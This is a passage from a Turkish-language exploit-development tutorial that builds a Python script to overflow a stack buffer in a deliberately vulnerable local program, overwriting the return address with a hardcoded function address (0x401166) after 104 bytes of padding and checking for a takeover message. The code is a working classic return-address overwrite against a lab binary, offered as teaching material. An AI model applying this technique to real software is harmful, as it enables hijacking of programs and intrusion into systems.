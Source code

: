 Şimdi tüm bu bilgilerle sömürü kodumuzu yazmaya başlıyoruz. Ben sömürü kodu için Python dilini kullanıyorum. Sizler farklı dillerde yazabilirsiniz.

Statik değişkenlerimizi belirleyelim:

```python
# Zafiyetli programın adı
VICTIM_PROGRAM = "./zafiyetli_sunucu"

# objdump ile bulduğumuz statik adres.
HARDCODED_ADDRESS = 0x401166
# Padding boyutumuz
PADDING_SIZE = 104
```

Ardından programı başlatan kodu yazıyoruz:

```python
 try:
        p = subprocess.Popen([VICTIM_PROGRAM], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    except FileNotFoundError:
        print(f"[!] HATA: '{VICTIM_PROGRAM}' bulunamadi. C++ kodunu -no-pie ile derlediniz mi?")
        sys.exit(1)
```

Şimdi payloadlarımızı hazırlayan aşamayı yazıyoruz:

```python
padding = b'A' * PADDING_SIZE
overwrite_address = struct.pack("<Q", HARDCODED_ADDRESS)
payload = padding + overwrite_address
print(f"[*] Payload {len(payload)} byte olarak olusturuldu.")
print("[*] Payload kurban programa gonderiliyor...")
```

Ardından enjekte ettiğimiz fonksiyonun çıktılarını kontrol ettiğimiz aşamayı yazıyoruz:

```python
 stdout_output_bytes, stderr_output_bytes = p.communicate(input=payload)
    
    stdout_output = stdout_output_bytes.decode('utf-8', errors='ignore')
    stderr_output = stderr_output_bytes.decode('utf-8', errors='ignore')

    print("\n--- Kurban Programdan Gelen Cikti ---")
    print(stdout_output)
    print("--- Kurbandan Gelen Hata Ciktisi (varsa) ---")
    print(stderr_output)
    print("--- Exploit Tamamlandi ---")
    
    if "KONTROL ELE GECIRILDI" in stdout_output:
        print("\n[+] Zafiyet basariyla istismar edildi!")
    else:
        print("\n[-] Istismar basarisiz oldu.")
```

Ve sömürü kodumuzu çalıştırdığımızda başarıyla fonksiyonu enjekte ettiğimizi görüyoruz.

